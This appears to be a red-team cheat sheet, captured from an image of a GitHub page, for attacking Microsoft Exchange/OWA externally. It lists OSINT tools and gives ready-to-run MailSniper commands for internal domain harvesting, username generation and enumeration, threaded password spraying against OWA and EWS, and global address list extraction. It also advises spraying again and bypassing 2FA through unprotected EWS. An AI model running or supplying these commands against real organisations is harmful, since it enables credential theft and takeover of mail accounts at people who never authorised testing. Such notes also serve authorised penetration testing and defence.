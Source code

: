 ````
### Attacking externally
- Attah path could be: Reconnaissance --> OWA Discovery --> Internal Domain Discovery --> Naming scheme fuzzing --> Username enumeration --> Password discovery --> GAL Extraction --> More Password discovery --> 2fa bypass --> Remote Access through VPN/RDP / Malicious Outlook Rules or Forms / Internal Phishing

#### Collection of data (OSINT)
- Collect e-mail adresses, usernames, passwords, get the email/user account naming scheme with tools such as:
  - https://github.com/mschwager/fierce
  - https://www.elevenpaths.com/innovation-labs/technologies/foca
  - https://github.com/lanmaster53/recon-ng
  - https://github.com/leebaird/discover
  - https://github.com/laramies/theHarvester

#### Domain name discovery
- https://github.com/dafthack/MailSniper
```
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME>
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME> -OutFile <POTENTIAL_DOMAINS.TXT> -CompanyName "TARGET NAME"
```
- Internal Domain name may be found inside a SSL Certificate

#### Name scheme fuzzing
- Create a username list from the OSINT
- Could use https://github.com/dafthack/EmailAddressMangler to generate mangled username list
```
Invoke-EmailAddressMangler -FirstNamesList <TXT> -LastNameList <TXT> -AddresConvention fnln | Out-File -Encoding ascii possible-usernames.txt
```

- https://gist.github.com/superkojiman/11076951
```
/opt/namemash.py names.txt >> possible-usernames.txt
```

#### Username Enumeration
- https://github.com/dafthack/MailSniper
```
Invoke-UsernameHarvestOWA -Userlist possible-usernames.txt -ExchHostname <EXCH HOSTNAME> -DOMAIN <IDENTIFIED INTERNAL DOMAIN NAME> -OutFile domain_users.txt
```

#### Password discovery
- https://github.com/dafthack/MailSniper
```
Invoke-PasswordSprayOWA -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile ews-sprayed-creds.txt
```

#### Global Address List (GAL) Extraction
- https://els-cdn.content-api.ine.com/09f3f35f-6f69-4a9d-90be-d13046e692c0/index.html#
```
Get-GlobalAddressList -ExchHostname <EXCH HOSTNAME> -UserName <DOMAIN>\<USER> -Password <PASSWORD> -Verbose -OutFile global-address-list.txt
```
- Then you could spray passwords again to get access to more mail accounts!

#### Bypassing 2fa
- Can check by server responses if supplied password is correct or not.
- Most 2FA vendors do not cover all available Exchange protocols. Owa might be protected but EWS might not be!
````